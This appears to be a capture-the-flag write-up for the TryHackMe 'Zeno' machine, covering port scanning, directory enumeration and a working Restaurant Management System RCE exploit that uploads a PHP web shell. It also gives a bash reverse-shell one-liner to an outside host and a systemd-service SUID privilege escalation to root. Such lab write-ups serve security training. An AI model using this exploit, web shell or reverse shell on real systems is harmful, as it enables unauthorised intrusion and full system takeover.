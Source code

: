 # Zeno

# Nmap
```sh
┌──(kali㉿kali)-[~/THM/ZENO/recon/nmap]
└─$ nmap 10.10.251.31 -p- --min-rate 2000 -vv -oA allports -Pn
```

```sh
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
12340/tcp open  unknown syn-ack
```

```sh
┌──(kali㉿kali)-[~/THM/ZENO/recon/nmap]
└─$ nmap 10.10.251.31 -p22,12340 --min-rate 2000 -vv -oA allscsv -Pn -sC -sV
```
```sh
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 092362a2186283690440623297ff3ccd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33663536b0680632c18af601bc4338ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 1498e3847055e6600cc20977f8b7a61c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
```

# Web enumeration
```sh
┌──(kali㉿kali)-[~/THM/ZENO/recon/web]
└─$ gobuster dir -u http://10.10.251.31:12340 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x .php,.txt,.html 
...
/rms                  (Status: 301) [Size: 238] [--> http://10.10.251.31:12340/rms/]
...
```

# RMS exploit
RMS stands for Restaurant Management System
An exploit can be found with:
```sh
searchsploit restaurant management system
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Restaurant Management System 1.0 - Remote Code Execution                                                                                                | php/webapps/47520.py
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
The exploit needed some adjustedments and did not work immediately. Below the working exploit is found:
```python3
# Exploit Title: Restaurant Management System 1.0  - Remote Code Execution
# Date: 2019-10-16
# Exploit Author: Ibad Shah
# Vendor Homepage: https://www.sourcecodester.com/users/lewa
# Software Link: https://www.sourcecodester.com/php/11815/restaurant-management-system.html
# Version: N/A
# Tested on: Apache 2.4.41

#!/usr/bin/python

import requests
import sys

print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


""")
print ("Credits : All InfoSec (Raja Ji's) Group")
url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"



headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data; boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL : "+url+"images/reverse-shell.php")
```
 Run the exploit to execute commands on the target go to the given URL:

 http://10.10.98.202:12340/rms/images/reverse-shell.php?cmd=id

 To get a reverse shell we url encode `bash -i >& /dev/tcp/10.11.40.46/4444 0>&1` and execute it in the webshell
 ```sh
http://10.10.98.202:12340/rms/images/reverse-shell.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.40.46%2F4444%200%3E%261
```
No we have a shell as apache. 

# Privilege escaltion to edward
During enumeration we found another user 'edward' an with linpeas we found a password. Let's try logging in as that user via ssh.
```sh
ssh edward@10.10.98.202
```

Yes!! we have as shell as edward and can read the user flag.

Now we run linpeas again and we find out that we can write to a service. Let's read the file:
```sh
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```
Here ExecStart is the main process of the service. Since we have write privileges to the file we can change the value of ExecStart. On the machine nano (my favorite editor) is not available to I copied the contents of the file to my own machine and changed the value of ExecStart
```sh
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/usr/bin/chmod +s /usr/bin/bash

[Install]
WantedBy=multi-user.target


[Install]
WantedBy=multi-user.target

```

Now the service will set the SUID bit on /usr/bin/bash on startup. We will be able to execute the file as the user who owns the file: root in this case. Sounds great to have a bash shell as root...

To change the file we convert the file to base64 and redirect the output to the service file:
```sh
[edward@zeno ~]$ echo "RGVzY3JpcHRpb249WmVubyBtb25pdG9yaW5nCgpbU2VydmljZV0KVHlwZT1zaW1wbGUKVXNlcj1y
> b290CkV4ZWNTdGFydD0vdXNyL2Jpbi9jaG1vZCArcyAvdXNyL2Jpbi9iYXNoCgpbSW5zdGFsbF0K
> V2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQK" | base64 -d > /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ ls -al /etc/systemd/system/zeno-monitoring.service
```

In order to start the service we need to reboot the machine. During enumeration it was found that `/usr/bin/reboot` can be executed as sudo without password.
```sh
sudo reboot
```

After connecting again via ssh as the user edward we can simply type `bash -p` to get a root shell:






 



